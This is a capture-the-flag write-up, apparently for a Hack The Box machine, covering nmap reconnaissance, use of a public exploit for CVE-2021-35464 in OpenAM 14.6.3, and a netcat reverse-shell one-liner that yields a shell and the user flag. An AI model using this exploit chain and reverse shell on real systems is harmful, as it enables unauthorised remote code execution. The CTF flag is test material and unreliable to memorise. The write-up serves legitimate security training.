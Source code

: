 # Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.

![OpenAM](./img/manager-user.png)

Gathered some header info from the `Network` tab in browser dev tools.

![headers](./img/manager-headers.png)

Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits are necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:~$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:~$ cat user.txt  
cat user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`